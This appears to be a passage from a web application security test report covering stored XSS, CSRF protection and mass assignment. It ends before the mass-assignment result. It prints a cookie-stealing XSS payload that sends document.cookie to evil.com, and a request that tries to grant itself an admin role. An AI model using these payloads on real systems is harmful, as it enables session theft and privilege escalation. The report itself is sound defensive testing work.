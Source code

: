 
#### 6.2 Stored XSS
**Test:** Store malicious script in database

**Payload:**
```json
POST /api/jobs
{
  "title": "<script>document.cookie</script>",
  "description": "<img src=x onerror=fetch('evil.com?c='+document.cookie)>"
}
```

**Result:** ✅ **PASSED**
- Input stored as-is in database (data integrity)
- React escapes on render (safe output)
- No code execution on display

**Verdict:** ✅ NO VULNERABILITY

---

#### 6.3 CSRF Token Validation
**Test:** Attempt state-changing operation without CSRF token

**Result:** ⚠️ **INFO**
- SameSite=Strict cookies prevent CSRF
- No explicit CSRF tokens (not needed with strict cookies)
- All mutations require authentication

**Recommendation:** ℹ️ **LOW PRIORITY**
- Consider adding CSRF tokens for defense-in-depth
- Current protection (SameSite=Strict) is sufficient

**Verdict:** ✅ NO CRITICAL VULNERABILITY (Defense-in-depth opportunity)

---

## Test 7: API Security

### Test Cases

#### 7.1 Mass Assignment
**Test:** Attempt to modify restricted fields

**Payload:**
```json
PATCH /api/users/me
{
  "email": "attacker@evil.com",
  "role": "admin",
  "verified": true,
  "stripe_customer_id": "cus_fake123"
}
```
